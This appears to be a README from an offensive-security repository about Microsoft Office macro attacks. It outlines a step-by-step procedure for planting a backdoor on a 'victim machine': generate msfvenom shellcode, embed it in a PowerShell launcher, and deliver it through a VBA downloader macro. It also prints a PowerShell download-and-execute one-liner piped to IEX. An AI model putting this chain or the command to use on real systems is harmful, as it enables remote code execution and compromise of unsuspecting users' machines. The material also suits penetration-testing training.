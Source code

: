 ### Microsoft Office Attacks.

The client-side attacks based on Microsoft Office's programs is a type of attack that involves the macros feature of Microsoft Office tools in a procedure that leads to RCE on victim's host. This macros are based in VBA.

In this repository we can find some scripts and procedures to craft and test macros that run arbitrary code when this gets open.

In summary, if we want to create a backdoor connection in a victim machine we must go step by step:

- First we craft our shellcode with the help of [ShellCode.sh](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/Payloads/MsfVenom/ShellCode.sh) file. 

- Once we craft it, we paste it in the '$buf' variable of [VBAenvlauncher.ps1](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/PowerShell/VBAenvlauncher.ps1) script.

- Then, we make use of [PSHTTPDownloader.vba](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/VBA/PSHTTPDownloader.vba) to download and execute the prepared VBAenvlauncher.ps1 script. It is worth to note that in PSHTTPDownloader we must add to the downloader line, stored in *str* var, the term **| IEX** in order to make powershell to also execute the contents of the script he previously has downloaded.

    ```powershell
    powershell (New-Object System.Net.WebClient).DownloadFile('<URL>', '<OUTFILE>') | IEX
    ```

The rest of scripts present on this repository are only to help the reader to understand the main scripts necesary to perform the operation.

<br>